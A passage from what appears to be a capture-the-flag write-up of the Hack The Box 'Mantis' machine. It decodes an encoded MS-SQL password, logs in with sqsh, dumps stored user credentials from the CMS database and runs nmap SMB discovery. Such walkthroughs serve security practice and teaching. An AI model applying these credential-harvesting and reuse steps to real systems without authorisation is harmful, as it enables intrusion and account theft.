 ```python
>>> import base64
>>> base64.b64decode('NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx')
'6d2424716c5f53405f504073735730726421'
```
The result of the decoding is a hex string.  It could be a hash, but to ensure it's not just hex-encoded, we run a quick decode:
```python
>>> '6d2424716c5f53405f504073735730726421'.decode('hex')
'm$$ql_S@_P@ssW0rd!'
```
Well that looks like our MS-SQL password!


### MS-SQL Credentials
For MS-SQL, metasploit has a number of inbuilt modules, but I've found them to be fairly buggy in the past, so working with `sqsh` allows us to manually enumerate with the database. 

The password implies it's for the `sa` user, but connecting with that yields no result.  Connecting with username `admin` however, does.  We use the following:
```bash
sqsh -U admin -S 10.10.10.52
```
As a quick aside, it's worthwhile to check whenever working with an MS-SQL database is the presence of higher privileges.  We can check these manually, but a quick check is to see if you can access `advanced options`.  As we see below, we don't have the necessary permissions:
```
1> exec sp_configure 'show advanced options', 1
2> go
Msg 15247, Level 16, State 1
Server 'MANTIS\SQLEXPRESS', Procedure 'sp_configure', Line 105
User does not have permission to perform this action.
(return status = 1)
```
Enumerating the database, we check the OrchardDB for the presence of any left over user records:
```
1> SELECT Username, Password FROM blog_Orchard_Users_UserPartRecord;
2> go
```
This yields the following user accounts:
``` 
admin:Password1234 
James:J@m3s_P@ssW0rd! 
```

We test both credentials on a number of services, but it turns out he's not even a user within the installed OrchardCMS on port 8080.  Trying it on a number of services, it turns out he's a user on the Windows Machine itself.
```bash
root@kali:~# nmap -sU -sS --script smb-os-discovery.nse -p U:139,T:139 10.10.10.52

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-23 15:59 EST
Nmap scan report for MANTIS.HTB.LOCAL (10.10.10.52)
Host is up (0.071s latency).

PORT    STATE  SERVICE
139/tcp open   netbios-ssn
139/udp closed netbios-ssn

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
```